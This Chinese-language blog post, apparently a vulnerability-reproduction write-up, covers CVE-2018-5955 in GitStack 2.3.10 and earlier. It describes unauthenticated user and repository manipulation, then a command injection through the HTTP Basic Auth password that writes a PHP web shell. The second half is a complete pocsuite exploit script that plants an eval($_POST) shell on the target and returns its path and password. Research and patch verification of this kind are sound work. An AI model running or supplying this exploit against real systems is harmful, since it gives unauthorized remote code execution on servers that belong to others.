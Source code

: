 ```yaml
---
layout: post
title:  "GitStack <= 2.3.10 非授权访问命令执行（文件上传）漏洞（CVE-2018-5955）"
date:   2019-8-3 10:30:43
categories: Development
author: co0ontty
categories: 安全开发 漏洞复现 ALL
tags: 安全开发 漏洞复现 ALL
describe: GitStack <= 2.3.10 非授权访问命令执行（文件上传）漏洞
cover: '/assets/img/posts/gitstackcover.png'
---
```


## GitStack <= 2.3.10 非授权访问命令执行（文件上传）漏洞

### 漏洞概述：

该漏洞主要是通过以下几个漏洞同时利用达到远程命令执行效果：

* 用户相关
  
  用户列表信息泄露、任意用户添加、任意用户密码修改

* Project 相关
  
  未授权条件下可以任意创建 project

* HTTP Basic Authentication 
  
  HTTP Basic Authentication 认证过程中的漏洞，通过该漏洞，结合创建的 project 与用户名密码即可实现命令执行（文件上传）

### 漏洞环境搭建

下载 Gitstack 2.3.10 版本进行安装

### 漏洞复现

#### 用户相关 rest_user：

1.使用 GET 方式可以直接查看 GitStack 仓库的用户列表，存在未授权访问信息泄露漏洞   
直接访问http://ip/rest/user 即可获取gitstack库中的所有用户  

2.通过 POST 方法，指定 username 和 password 可以直接添加仓库用户，存在任意用户添加漏洞  

```
URL：http://ip/rest/user/
POST：username=test_username&password=test_passwd
```

#### project相关：

1.通过 POST 一个带有 CSRF_TOKEN的name 值即可创建一个以 name 值命名的project![创建project](/assets/img/posts/gitstack-1.png)

CSRF_TOKEN 存在于 http://ip/registration/login/?next=/gitstack/ 的源码中

![nihao](/assets/img/posts/gitstack-2.png)

2.任意 project 添加 user

只需要向 http://ip/rest/repository/ 传递 new__project 和 new_username 的值即可在名为 new_project 的项目中创建名为 new_username 的用户 

```bash
POST http://ip/rest/repository/new_projectname/user/new_username/
```

![任意 project 添加 user](/assets/img/posts/gitstack-3.png)

#### 命令执行（文件上传）：

通过 HTTP Basic Authentication 认证过程中的漏洞，发送如下请求即可实现命令执行，以上传文件为例子

```python
requests.get('http://{}/web/index.php?p={}.git&a=summary'.format(ip, repository), auth=HTTPBasicAuth(username, 'p && echo "<?php system($_POST['a']); ?>" > c:GitStackgitphpexploit.php'))
```

## EXP

该 EXP 使用 pocsuite 框架格式编写 

```python
#!/usr/bin/python2.7
# -*- coding: utf-8 -*-
from pocsuite.api.poc import register,Output, POCBase
from requests.auth import HTTPBasicAuth
import requests,urlparse,random,os,sys,hashlib,string


class TestPOC(POCBase):
    vulID = 'N/A'
    version = 'GitStack <= 2.3.10'
    author = 'co0ontty'
    vulDate = '2019-7-11'
    createDate = '2019-7-16'
    updateDate = '2018-3-31'
    references = ['https://xz.aliyun.com/t/2235']
    name = 'GitStack <= 2.3.10 远程命令执行漏洞分析'
    appPowerLink = 'https://gitstack.com'
    appName = 'GitStack'
    appVersion = 'GitStack <= 2.3.10'
    vulType = '文件上传'
    desc = '''
    该漏洞利用GitStack正常使用过程中调用的接口的未授权访问漏洞，越权读取、创建、修改用户列表、仓库。通过进一步利用实现恶意文件的上传。
    '''
    samples = []
    install_requires = []

    def _attack(self):
        result = {}
        target = self.url
        hostname = urlparse.urlparse(target).hostname
        port = urlparse.urlparse(target).port
        if port is None:
            target = target+":80"
        repository = ''.join(random.sample(string.digits+string.ascii_letters,4))
        username = ''.join(random.sample(string.digits+string.ascii_letters,4))
        password = ''.join(random.sample(string.digits+string.ascii_letters,4))
        csrf_token = ''.join(random.sample(string.digits+string.ascii_letters,4))
        user_list = []
        r_getuser = requests.get("{}/rest/user/".format(target))
        try:
            user_list = r_getuser.json()
            user_list.remove('everyone')
        except:
            pass
        if len(user_list) > 0:
            username = user_list[0]
        else:
            r_create_user = requests.post("{}/rest/user/".format(target),data={'username' : username, 'password' : password})
        r_getrepo = requests.get("{}/rest/repository/".format(target))
        repository_list = r_getrepo.json()
        if len(repository_list) > 0:
            repository = repository_list[0]['name']
        r_post_csrftoken = requests.post("{}/rest/repository/".format(target), cookies={'csrftoken' : csrf_token}, data={'name' : repository, 'csrfmiddlewaretoken' : csrf_token})
        r_create_user = requests.post("{}/rest/repository/{}/user/{}/".format(target, repository, username))
        r_del_user = requests.delete("{}/rest/repository/{}/user/{}/".format(target, repository, "everyone"))
        random_file_name = ''.join(random.sample(string.ascii_letters+string.digits,16))+".php"
        random_identify_code = ''.join(random.sample(string.ascii_letters+string.digits,35))
        random_shell_pass = ''.join(random.sample(string.ascii_letters+string.digits,5))
        webshell = 'p && echo " <?php @eval($_POST['+random_shell_pass+']);echo"'+random_identify_code+'";?>" > c:'
        r_create_file = requests.get('{}/web/index.php?p={}.git&a=summary'.format(target, repository), auth=HTTPBasicAuth(username, "{}".format(webshell)+random_file_name))
        test_url = target+"/web/"+random_file_name
        r_attack = requests.get(test_url)
        if (r_attack.status_code == 200):
            if (random_identify_code in r_attack.text):
                result['VerifyInfo'] = {}
                result['VerifyInfo']['URL'] = self.url
                result['VerifyInfo']['ShellPath'] = test_url
                result['VerifyInfo']['ShellPasswd'] = random_shell_pass
            pass
        return self.parse_output(result)

    _verify = _attack

    def parse_output(self, result):
        output = Output(self)
        if result:
            output.success(result)
        else:
            output.fail('Internet nothing returned')
        return output


register(TestPOC)
```
